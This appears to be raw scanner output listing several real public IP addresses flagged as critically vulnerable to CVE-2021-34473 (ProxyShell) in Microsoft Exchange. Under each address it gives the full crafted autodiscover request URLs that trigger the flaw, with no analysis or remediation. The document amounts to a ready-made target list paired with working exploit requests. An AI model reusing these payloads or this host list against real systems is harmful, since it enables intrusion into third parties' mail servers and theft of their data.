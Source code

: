 [CVE-2021-34473] [http] [critical] https://194.154.91.62/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 194.88.15.112  
  
---  
[CVE-2021-34473] [http] [critical] https://194.88.15.112/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://194.88.15.112/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 195.133.242.168  
  
---  
[CVE-2021-34473] [http] [critical] https://195.133.242.168/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://195.133.242.168/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 194.88.15.113  
  
---  
[CVE-2021-34473] [http] [critical] https://194.88.15.113/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://194.88.15.113/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 195.133.69.145  
  
---  
[CVE-2021-34473] [http] [critical] https://195.133.69.145/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://195.133.69.145/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 195.209.51.123  
  
---  
[CVE-2021-34473] [http] [critical] https://195.209.51.123/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://195.209.51.123/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 195.34.193.230  
  
---  
[CVE-2021-34473] [http] [critical] https://195.34.193.230/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  